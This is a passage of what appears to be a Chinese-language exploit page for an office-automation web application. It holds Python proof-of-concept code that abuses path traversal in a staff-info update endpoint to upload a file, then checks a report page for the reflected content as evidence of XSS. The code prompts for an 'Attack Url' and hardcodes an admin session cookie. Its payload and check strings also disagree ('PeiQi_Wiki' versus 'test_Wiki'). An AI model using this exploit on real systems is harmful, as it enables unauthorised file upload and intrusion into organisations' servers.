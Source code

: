 ```python
        "Connection": "close",
        "Cookie":  Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkubG9nIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KClBlaVFpX1dpa2kKLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/test \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 test.log 文件, \033[0m".format(target_url))
            POC_3(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传 test.log 文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cookie):
    vuln_url = target_url + "/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":  Cookie,
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test \033[0m".format(target_url))
        if "test_Wiki" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞，响应中包含 test_Wiki,存在XSS漏洞, 可参考文章写的利用版本进一步攻击 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞，响应中不包含 test_Wiki\033[0m".format(target_url))
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = "USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31"
    POC_1(target_url, Cookie)

```

![](/img/20210924015140151799.png)

## 参考文章

https://paper.seebug.org/1499/